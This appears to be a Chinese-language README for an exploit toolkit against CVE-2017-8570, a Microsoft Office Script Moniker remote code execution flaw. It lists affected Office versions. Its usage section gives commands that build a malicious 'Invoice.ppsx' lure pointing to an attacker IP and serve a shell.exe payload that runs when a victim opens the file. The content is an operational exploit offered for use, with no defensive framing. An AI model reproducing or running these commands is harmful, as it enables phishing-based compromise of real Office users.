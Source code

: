 # CVE-2017-8570

## 说明

Script Moniker 远程代码执行漏洞

## 影响范围

* Microsoft Office 2007 Service Pack 3
* Microsoft Office 2010 Service Pack 2 (32-bit editions)
* Microsoft Office 2010 Service Pack 2 (64-bit editions)
* Microsoft Office 2013 RT Service Pack 1
* Microsoft Office 2013 Service Pack 1 (32-bit editions)
* Microsoft Office 2013 Service Pack 1 (64-bit editions)
* Microsoft Office 2016 (32-bit edition)
* Microsoft Office 2016 (64-bit edition)

## 用法

创建恶意文档

```
# python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.154.200/logo.doc
Generated Invoice.ppsx successfully
```

启动HTTP服务，监听指定端口

```
python cve-2017-8570_toolkit.py -M exp -e http://192.168.154.200/shell.exe -l /tmp/shell.exe
```

当受害者打开 Invoice.ppsx 即可执行 shell.exe，但是会有CMD窗口闪现

## 参考文章

* [Office CVE-2017-8570远程代码执行漏洞复现](http://www.freebuf.com/vuls/144054.html)
* [Proof of Concept exploit for CVE-2017-8570](https://github.com/rxwx/CVE-2017-8570)

